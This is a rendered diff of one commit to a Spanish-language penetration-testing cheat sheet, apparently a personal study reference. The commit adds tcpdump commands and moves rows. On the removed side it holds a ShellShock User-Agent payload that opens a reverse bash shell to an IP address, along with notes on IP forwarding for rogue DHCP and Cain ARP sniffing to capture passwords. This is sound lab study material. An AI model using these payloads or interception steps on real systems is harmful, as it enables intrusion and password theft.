

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Interceptadores & Web, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; values as stored, in another font and other column widths than the file's, no cell formats; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Interceptadores & Web)
+++ b/CheatSheet.xlsm (sheet Interceptadores & Web)
-J18 (WIRESHARK): CAIN
+J18 (WIRESHARK): TCPDUMP
-J20 (WIRESHARK): Activar el Sniffer el APR decir sobre que queremos interceptar la comunicacion y darle, despues ir a password
+J20 (WIRESHARK): tcpdump -ni tun0 icmp
-K20: (empty)
+K20: Para comprobar por ejemplo que tenemos conexion en un netcat y le llegan los paquetes
-L20: (empty)
+L20: -n que no convierta las direcciones a nombres -i para que escuche en una interfaz
-J21 (WIRESHARK): (empty)
+J21 (WIRESHARK): tcpdump -ni ens160 host 10.10.10.10
-K21: (empty)
+K21: Para comprobar que llegan paquetes al host proporcionado
-L21: (empty)
+L21: n nombres i interfaz ens160 es la interfaz
-J22 (WIRESHARK): DHCP ROGUE
+J22 (WIRESHARK): (empty)
-J22:L22 merged
-J23 (WIRESHARK): Comando
+J23 (WIRESHARK): (empty)
-K23: Descripcion
+K23: (empty)
-L23: Anotaciones
+L23: (empty)
-J24 (WIRESHARK): echo "1" > /proc/sys/net/ipv4/ip_forward
+J24 (WIRESHARK): CAIN
+J24:L24 merged
-K24: Para reenviar los paquetes
+K24: (empty)
-L24: Si no se estrellarian contra nosotros
+L24: (empty)
-J25 (WIRESHARK): (empty)
+J25 (WIRESHARK): Comando
-K25: (empty)
+K25: Descripcion
-L25: (empty)
+L25: Anotaciones
-J26 (WIRESHARK): SHELLSHOCK
+J26 (WIRESHARK): Activar el Sniffer el APR decir sobre que queremos interceptar la comunicacion y darle, despues ir a password
-J26:L26 merged
-J27 (WIRESHARK): Comando
+J27 (WIRESHARK): (empty)
-K27: Descripcion
+K27: (empty)
-L27: Anotaciones
+L27: (empty)
-J28 (WIRESHARK): hackersclub.academy/hca.iso
+J28 (WIRESHARK): DHCP ROGUE
+J28:L28 merged
-K28: Mini ISO Tiny Core para practicar ShellShock
+K28: (empty)
-J29 (WIRESHARK): User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.10.10/443 0>&1
+J29 (WIRESHARK): Comando
-K29: Ejemplo de ShellShock en el useragent con shell reversa
+K29: Descripcion
-L29: (empty)
+L29: Anotaciones
```
Also changed, not shown: 2 added rows, 2 removed rows, 8 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Explotacion & Post-Explotacion, sheet Enumeracion & Escaneos, cell formats.
